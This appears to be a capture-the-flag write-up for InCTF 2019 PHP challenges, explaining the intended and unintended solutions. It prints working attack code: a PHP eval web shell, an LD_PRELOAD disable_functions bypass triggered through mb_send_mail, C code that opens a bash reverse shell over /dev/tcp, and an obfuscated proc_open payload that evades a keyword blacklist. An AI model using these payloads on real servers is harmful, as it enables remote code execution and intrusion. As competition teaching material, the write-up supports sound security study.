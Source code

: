 #### Unintended Step for the same stage:
The unintended was to upload `.pht` files because server treats them as `php` file.

**Now from both ways you can create a stable file from where you can execute PHP code.**

If you see the `phpinfo()`, you can see the disable_function list:
```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,system,exec,shell_exec,popen,proc_open,passthru,link,symlink,syslog,imap_open,ld,mail,fread,fopen,file_get_contents,readfile,chdir
```

Here, you can see that `putenv` is not there, but all the majorly known function like, `error_log` and `mail` are blocked. And also PHP-Imagick library is not there.  
But there is function which works same as `mail` is `mb_send_mail` (For this to be working `mbstring` module should be there).  
This function came up when I was fuzzing the php-functions to see which all functions calls execve internally. We(I and [@\_\_c3rb3ru5__](https://twitter.com/__c3rb3ru5__)) implemented a **dumb** fuzzer for that. We will be releasing a blog soon with the result of our small research.  

So final exploit:
```php
#For getting consistent php code execution
$payload = '<?php eval($_GET[\'cmd\']); ?> ';
file_put_contents("../a.php",$payload);

#For bypassing disable_function and getting RCE
rename("./exploit.txt","/tmp/exploit.txt");

chmod("/tmp/exploit.txt",0755);
putenv("LD_PRELOAD=/tmp/exploit.txt");
mb_send_mail('a','a','a','a');

```
The exploit.c file:
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>

uid_t getuid(void){
	unsetenv("LD_PRELOAD");
	system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
	return 1;
}
```

You can get here the exploit for Race-Condition [here](https://github.com/tarunkant/CTF/blob/master/InCTF2019/Copy-Cat/exploit2.py).

## PHP Series
The PHP series was related to PHP-internals.
### PHP+1
In this challenge I didn't check if the input contains the blacklisted keyword.  
If you check for disable_functions, you will found that `proc_open` was unblocked.  
So there can be several solutions for this stage, here is one:
```
$x=(ch).(r);$k=$x(95);$l=$x(47);$a=(pr).(oc).$k.(op).(en);$b=($l.readFlag);$c=(p).(i).(pe);$d=r;$e=w;$f=(p).(i).(pes);$g=(pri).(nt).$k.(r);$h=(str).(eam).$k.(ge).(t).$k.(con).(tents);$i=(arra).(y).$k.(sh).(ift);$j=(arra).(y).$k.(sl).(ice);$z=$a($b,array(array($c,$d),array($c,$e),array($c,$e)),$$f);$g($h($i($j($$f,1,2))));
```